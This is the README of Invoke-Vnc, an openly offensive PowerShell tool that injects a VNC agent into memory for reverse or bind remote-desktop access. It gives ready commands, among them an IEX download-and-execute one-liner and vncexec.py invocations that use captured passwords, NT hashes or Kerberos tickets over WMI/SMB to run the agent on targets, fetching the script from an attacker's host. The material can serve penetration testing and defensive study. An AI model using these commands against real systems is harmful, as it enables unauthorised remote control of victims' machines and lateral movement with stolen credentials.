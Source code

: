 Invoke-Vnc - a powershell VNC injector
===================

Invoke-Vnc executes a VNC agent in-memory and initiates a reverse connection, or binds to a specified port. Password authentication is supported.

Usage example
------------------

Invoke locally:
```powershell
Import-Module Invoke-Vnc.ps1
#Reverse VNC connection
Invoke-Vnc -ConType reverse -IpAddress <backconnect_ip> -Port 5500 -Password P@ssw0rd
#Bind VNC connection
Invoke-Vnc -ConType bind -Port 5900 -Password P@ssw0rd
```

Invoke over net:
```powershell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/artkond/Invoke-Vnc/master/Invoke-Vnc.ps1')
#Reverse VNC connection
Invoke-Vnc -ConType reverse -IpAddress <backconnect_ip> -Port 5500 -Password P@ssw0rd
#Bind VNC connection
Invoke-Vnc -ConType bind -Port 5900 -Password P@ssw0rd
```

Launch VNC listener to catch reverse VNC connection:
```
vncviewer –listen <port>
```

Execute agent remotely via WMI
--------------------------
If you have authenticated access (password, nt hash or kerberos ticket) to the machine, you can use the vncexec.py script to execute the VNC agent.

Upload an encoded ps1 script as a bat file via SMB and execute the agent to bind a VNC port on target:
```
vncexec.py  -invoke-vnc-path Invoke-Vnc.ps1 -contype bind -vncport 5900 -vncpass password  -method upload user:pass@target_ip
```
Download the script via HTTP from the attacker's host and execute the agent to get a reverse VNC connection:
```
vncexec.py -bc-ip <attacker's_host> -httpport 8080 -invoke-vnc-path Invoke-Vnc.ps1 -contype reverse -vncport 5500 -vncpass P@ssw0rd -method download user:pass@target_ip
```

Script depends on a recent build of impacket library. Get it at https://github.com/CoreSecurity/impacket
```
git clone https://github.com/CoreSecurity/impacket
cd impacket
sudo python setup.py install
```

Build notes
----------
Project is built using Visual Studio 2013. To successfully build the solution you need python to be available at C:\Python27\python.exe. Both x86 and x64 configurations must be built in order to update Invoke-Vnc.ps1 script.


To-do
--------
- Fix session tracking


Author
------

Artem Kondratenko https://twitter.com/artkond


Credit
------
Repo is based on the following projects:

- https://github.com/rapid7/metasploit-framework/tree/master/external/source/vncdll
- https://github.com/CoreSecurity/impacket/tree/master/examples
- https://github.com/stephenfewer/ReflectiveDLLInjection
- https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1
